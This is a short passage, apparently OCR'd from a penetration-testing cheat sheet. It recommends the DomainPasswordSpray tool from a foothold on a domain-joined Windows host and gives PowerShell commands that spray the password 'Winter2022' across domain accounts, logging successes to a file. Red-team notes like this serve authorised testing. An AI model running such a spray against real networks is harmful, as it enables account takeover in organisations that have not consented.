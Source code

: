 **Fro**m **a** **footh**old **on** **a** **doma**in **join**ed **Windo**ws **hos**t, **th**e [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) **too**l **is** **high**ly **effect**ive  

```Shell
Import-Module .\DomainPasswordSpray.ps1

Invoke-DomainPasswordSpray -Password Winter2022 -OutFile spray_success -ErrorAction SilentlyContinue
```
